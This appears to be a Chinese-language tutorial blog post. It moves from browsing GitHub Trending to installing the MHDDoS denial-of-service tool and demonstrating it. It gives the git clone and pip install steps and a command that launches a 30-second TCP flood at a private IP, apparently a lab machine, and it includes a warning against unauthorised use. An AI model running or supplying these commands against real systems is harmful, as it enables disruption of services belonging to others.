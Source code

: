 除了自己學程式外，也應該看看世界上的大家都正在做什麼有趣的專案，其中一個快速的方式就是透過 [GitHub Trending](https://github.com/trending) 來看看目前在GitHub上熱門的專案  
<img width="1494" alt="Screen Shot 2022-03-16 at 15 12 24" src="https://user-images.githubusercontent.com/32983347/158535967-7efac5f8-118a-4816-9c84-fc8783640098.png">
如果只想看Python的專案，可以在Language選擇Python  
<img width="1494" alt="Screen Shot 2022-03-16 at 15 13 39" src="https://user-images.githubusercontent.com/32983347/158536226-c1e63ef1-ba1c-4574-9cad-902f4d885975.png">
那我們就來看看這個月最熱門的Python專案 **[MHDDoS](https://github.com/MHProDev/MHDDoS)** 吧  
# MHDDoS
如果想快速了解一個專案在做什麼，最快的方法就是看README.md了。
<img width="798" alt="Screen Shot 2022-03-16 at 15 17 47" src="https://user-images.githubusercontent.com/32983347/158536742-84ae2eeb-5b52-4ba0-af41-ba6c004f83c3.png">
可以看到這個專案是一個提供多達50種DDoS方法的攻擊工具，那我們就來玩玩看吧！  
### 安裝
```bash
git clone https://github.com/MHProDev/MHDDoS.git
cd MHDDoS
python3 -m pip install -r requirements.txt
```
### 執行工具  
### **🧨🧨🧨強烈不建議用這個工具進行未經允許的攻擊ㄛ🧨🧨🧨**  
這邊選用TCP Flood Bypass 這個方法攻擊 10.115.197.241 並使用三個thread攻擊30秒
```bash
python3 start.py tcp 10.115.197.241 3 30
```
可以看到被攻擊電腦的網路流量就瞬間上升了
<img width="682" alt="Screen Shot 2022-03-16 at 15 40 16" src="https://user-images.githubusercontent.com/32983347/158540960-865aa6f4-2be9-4b99-a0c4-1524cf978ef9.png">

